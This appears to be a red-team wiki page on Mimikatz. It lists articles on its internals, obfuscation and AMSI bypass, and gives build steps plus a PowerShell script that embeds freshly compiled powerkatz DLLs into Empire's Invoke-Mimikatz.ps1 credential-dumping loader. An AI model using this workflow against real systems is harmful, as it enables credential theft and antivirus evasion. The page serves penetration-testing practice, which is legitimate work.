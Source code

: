 # Mimikatz

- [https://tools.thehacker.recipes/mimikatz](https://tools.thehacker.recipes/mimikatz)
- [https://blog.xpnsec.com/exploring-mimikatz-part-1/](https://blog.xpnsec.com/exploring-mimikatz-part-1/)
- [https://blog.xpnsec.com/exploring-mimikatz-part-2/](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [https://www.praetorian.com/blog/inside-mimikatz-part1/](https://www.praetorian.com/blog/inside-mimikatz-part1/)
- [https://www.praetorian.com/blog/inside-mimikatz-part2/](https://www.praetorian.com/blog/inside-mimikatz-part2/)
- [https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html](https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html)




## Obfuscate Mimikatz

{% embed url="https://youtu.be/9pwMCHlNma4" %}

* [https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)
* [https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)




## Invoke-Mimikatz

* [http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/](http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/)



### Update .ps1

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)

Update the [`Invoke-Mimikatz.ps1`](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1) PowerShell script:

1. Grab source code zip from the latest (or any one you want) [release](https://github.com/gentilkiwi/mimikatz/releases) of Mimikatz.
2. Open the solution in Visual Studio.
3. Select the **Second_Release_PowerShell** target option and compile for  `Win32`.
4. Right-click on `mimikatz` solution > Properties > C/C++ > Set **Treat warnings as errors** to `No (/WX-)` > OK.
5. Compile for `x64`.
6. Transform the resulting `powerkatz` DLLs to base64 and replace the `$PEBytes32` and `$PEBytes64` vars at the bottom of `Invoke-Mimikatz.ps1` with a PowerShell script below.

{% code title="Update-InvokeMimikatz.ps1" %}
```powershell
$powerkatz32 = [System.IO.File]::ReadAllBytes("Win32\powerkatz.dll")
$powerkatz64 = [System.IO.File]::ReadAllBytes("x64\powerkatz.dll")
$encPowerkatz32 = [System.Convert]::ToBase64String($powerkatz32)
$encPowerkatz64 = [System.Convert]::ToBase64String($powerkatz64)
$invokeMimikatz = (New-Object Net.WebClient).DownloadString("https://github.com/BC-SECURITY/Empire/raw/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1") -replace '\$PEBytes32 = .*$', ('$PEBytes32 = ' + "'$encPowerkatz32'")
$invokeMimikatz -replace '\$PEBytes64 = .*$', ('$PEBytes64 = ' + "'$encPowerkatz64'") > Invoke-Mimikatz.ps1
```
{% endcode %}
